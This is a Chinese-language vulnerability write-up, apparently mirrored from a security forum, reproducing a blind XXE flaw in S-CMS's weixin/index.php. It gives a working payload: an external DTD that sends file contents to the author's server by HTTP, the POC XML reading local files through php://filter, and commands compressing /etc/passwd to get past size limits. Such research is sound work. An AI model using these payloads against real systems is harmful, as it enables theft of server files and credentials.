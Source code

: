 # S-CMS xxe漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3107](https://www.zhihuifly.com/t/topic/3107)

# S-CMS xxe漏洞

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 漏洞分析

全局搜索`simplexml`，在`weixin/index.php`发现漏洞

![image](img/50c03498c88f96176dfd735791511838.png)

非常标准的XXE，没有任何过滤手段，往下并未发现有输出XML解析结果的地方，此处应用无回显的XXE攻击手段

### 漏洞复现

首先在自己的服务器（192.168.64.131）上创建一个供靶机外部引用的dtd文件（test.dtd）

```
<!ENTITY % all 
	"<!ENTITY &#x25; send SYSTEM 'http://192.168.64.131/?%file;'>"
>
%all; 
```

发送POC

```
<?xml version="1.0"?>
<!DOCTYPE ANY [
	<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=d:/phpStudy/PHPTutorial/WWW/robots.txt">
	<!ENTITY % dtd SYSTEM "http://192.168.64.131/test.dtd">
%dtd;
%send;
]> 
```

![image](img/0a10d8369737adb8464a2856db791ea2.png)

然后在Apache日志中查看到结果：

![image](img/7bd0c3bf2dccc5c43ac6feae8f2642bf.png)

在这里发现一个问题，查看其它php文件的内容会发生`Detected an entity reference loop`错误，查询资料发现libxml解析器默认限制外部实体长度为2k，无法突破，只能寻找压缩解决方案（但效果不明显）

```
压缩：echo file_get_contents("php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd");
解压：echo file_get_contents("php://filter/read=convert.base64-decode/zlib.inflate/resource=/tmp/1"); 
```

## 参考链接

> http://pines404.online/2019/10/31/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/S-CMS%E5%AE%A1%E8%AE%A1%E5%A4%8D%E7%8E%B0/